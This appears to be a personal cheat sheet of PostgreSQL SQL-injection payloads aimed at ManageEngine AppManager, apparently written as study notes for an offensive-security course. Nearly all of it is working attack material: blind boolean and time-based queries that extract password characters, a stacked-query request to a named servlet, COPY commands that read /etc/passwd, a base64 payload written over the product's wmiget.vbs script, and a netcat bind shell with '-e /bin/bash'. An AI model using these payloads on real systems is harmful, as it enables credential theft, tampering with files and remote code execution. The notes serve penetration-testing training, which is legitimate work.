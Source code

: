 # psql execution
```
psql -p 15432 -U postgres -d amdb  ; `appmanager`

```

# Payload

```
select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');

select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(2)

amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($test$);
COPY AWAE(offsec) TO $C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$;


python payload.py --target manageengine --sqli ';' --payload 'SELECT case when (SELECT current_setting($is_superuser$))=$on$ then pg_sleep(10) else pg_sleep(2) end;--' 


# Payload to copy files to a file. 

copy (select convert_from(decode($ENCODED_PAYLOAD$,$base64$),$utf-8$)) to $C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$;

copy (select convert_from(decode($QVdBRQ==$,$base64$),$utf-8$)) to $/test.txt$;

------

CREATE temp table awae (content text);
COPY awae from $c:\awae.txt$;
SELECT content from awae;
DROP table awae;



# Boolean, Expect the normal return if works. 
[] (SELECT+(CASE+WHEN+(1%3d1)+THEN+9999+ELSE+1/(SELECT+0)+END))--
[] (SELECT (CASE WHEN (1=1) THEN 999 ELSE 1/(SELECT 0) END))
[] order=(SELECT (CASE WHEN substring((SELECT datname FROM pg_database LIMIT 1),1,1)='p' THEN 1592 ELSE 1592/(SELECT 0) END))
[] order=(SELECT (CASE WHEN substring((SELECT password FROM users LIMIT 1 offset 0),1,1)='V' THEN 1592 ELSE 1592/(SELECT 0) END))--

```

# Time based vs boolean based
```

# Timebased
[] (SELECT 1 FROM PG_SLEEP(5))
[] (select+case+when(ascii(substr((select+password+from+users),1,1))=104)+then+pg_sleep(2))
[] SELECT case when(substr((select password from users LIMIT 1 offset 0 ),1,1)='V') THEN pg_sleep(2) END;
[] SELECT (case when(ascii(substr((select password from users LIMIT 1 offset 0),1,1))=86) THEN pg_sleep(2) else pg_sleep(0) END);



/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;create+temp+table+awae+(content+text);copy+awae+from+$c:\awae.txt$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(2)+end;--+
```

https://www.postgresql.org/docs/9.2/functions-string.html

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection

https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL

https://medium.com/@V-Blaze/sql-injection-protecting-your-postgresql-database-ce8c0cc43685


# psql Stack!!
Stacked using case ..when..then..else. 
```
python payload.py --target manageengine --sqli ';' --payload 'SELECT case when (SELECT current_setting($is_superuser$))=$on$ then pg_sleep(10) else pg_sleep(2) end;--' 

```

# Log file location

```
\pgsql\data\amdb\postgresql.conf

```



# Psql instead of `'` use `$`
```
SELECT 'AWAE';
SELECT $AWAE$;
SELECT $TAG$AWAE$TAG$;
```

# psql File Read/Write
```
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;


CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';

COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';


```



